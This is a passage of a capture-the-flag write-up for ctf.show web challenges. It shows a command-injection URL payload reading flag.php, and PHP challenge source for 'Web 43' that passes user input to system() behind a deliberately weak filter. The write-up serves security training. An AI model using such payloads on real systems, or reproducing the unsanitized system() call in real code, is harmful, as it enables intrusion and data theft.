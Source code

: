 ```php
http://e8adf119-3cce-41b7-a680-58eefc789d4d.challenge.ctf.show/?c=cat flag.php||
```

<figure><img src="../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

## <mark style="color:blue;background-color:orange;">（15）Web 43</mark>

```php
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 21:32:51
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
} 
```
